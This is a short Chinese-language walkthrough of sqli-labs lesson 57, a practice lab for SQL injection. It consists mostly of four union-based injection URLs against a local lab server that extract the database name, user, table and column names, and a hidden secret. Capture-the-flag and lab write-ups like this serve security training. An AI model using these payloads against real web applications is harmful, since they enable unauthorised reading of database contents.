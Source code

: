 ```yaml
---
title: sqli-labs lession-57 GET-Union-变化4-仅允许14次请求
date: 2018-11-28 23:50:54
tags: [sqli-labs]
categories: sql注入
---
```


# sqli-labs lession-57 GET-Union-变化4-仅允许14次请求

---

## 手注

`http://192.168.75.133:8082/Less-57/?id=-7)"+union+select+1,database(),user()%23`

![001](/img/sql/Lesson-57/001.png)

`http://192.168.75.133:8082/Less-57/?id=-7)"+union+select+1,(select+group_concat(table_name)from+information_schema.TABLES+WHERE+TABLE_schema='challenges'),user()%23`

![002](/img/sql/Lesson-57/002.png)

`http://192.168.75.133:8082/Less-57/?id=-7)"+union+select+1,(select+group_concat(column_name)from+information_schema.columns+WHERE+TABLE_schema='challenges'+and+table_name='7hwn3qp2g0'),user()%23`

![003](/img/sql/Lesson-57/003.png)

`http://192.168.75.133:8082/Less-57/?id=-7)"+union+select+1,(select+GROUP_CONCAT(secret_PK4A)from challenges.7hwn3qp2g0),user()%23`

![004](/img/sql/Lesson-57/004.png)

提交

![005](/img/sql/Lesson-57/005.png)